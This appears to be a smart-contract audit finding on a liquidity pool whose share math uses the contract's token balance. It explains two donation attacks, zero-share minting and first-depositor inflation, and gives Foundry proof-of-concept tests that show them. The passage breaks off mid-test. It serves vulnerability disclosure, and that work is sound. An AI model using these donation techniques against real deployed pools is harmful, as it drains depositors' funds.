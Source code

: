Given that `totalLiquidity` is calculated using the contract's balance a malicious user can donate tokens to manipulate the share calculation.

The first attack can consist of the user donating a small amount of tokens before anyone provides liquidity. When the first user provides liquidity, `totalLiquidity` will be greater than 0 and the share change will be calculated as `(depositShare * amount) / totalLiquidity`. Since `depositShare` is 0, the share change will also be 0, so the user will not receive any shares. The same will happen for all users that provide liquidity after the first one. So every user will lose the tokens they provided.

The second attack, known as the "first depositor inflation attack", can be performed by the first depositor inflating the shares calculation in their favor. This is done by providing 1 wei (minting 1 share) and donating a large amount of tokens. When the next depositor provides liquidity, the share they receive will be less than expected due to the rounding down in the share calculation.

See the proofs of concept for more details.

## Proof of concept

```solidity
function test_provideMintsZeroShares() public {
    vm.prank(alice);
    WETH.transfer(address(liquidityPoolWETH), 1);

    vm.prank(bob);
    liquidityPoolWETH.provide(1e18);

    assert(liquidityPoolWETH.balanceOf(address(bob)) == 0);
}
```

```solidity
// Victim deposit > attacker donation
function test_firstDepositorInflation_1() public {
    // Alice provides 1 wei and donates 0.5 WETH
    vm.startPrank(alice);
    liquidityPoolWETH.provide(1);
    WETH.transfer(address(liquidityPoolWETH), 0.5e18);
    vm.stopPrank();

    // Bob provides 1 WETH
    // Shares minted = (depositShare * amount) / totalLiquidity = (1 * 1e18) / (0.5e18 + 1) = 1
    vm.prank(bob);
    liquidityPoolWETH.provide(1e18);

    // Both Alice and Bob have 1 share
    assert(liquidityPoolWETH.balanceOf(address(alice)) == 1);
    assert(liquidityPoolWETH.balanceOf(address(bob)) == 1);

    // Alice withdraws 1 share and gets 0.75 WETH
    uint256 aliceWETHBalance = WETH.balanceOf(address(alice));
    vm.prank(alice);
    liquidityPoolWETH.withdraw(1);
    uint256 aliceWETHBalanceIncrease = WETH.balanceOf(address(alice)) - aliceWETHBalance;
    assert(aliceWETHBalanceIncrease == 0.75e18);
}

// Victim deposit < attacker donation
function test_firstDepositorInflation_2() public {
    // Alice provides 1 wei and donates 0.5 WETH
    vm.startPrank(alice);
    liquidityPoolWETH.provide(1);
    WETH.transfer(address(liquidityPoolWETH), 0.5e18);
    vm.stopPrank();

    // Bob provides 0.2 WETH
```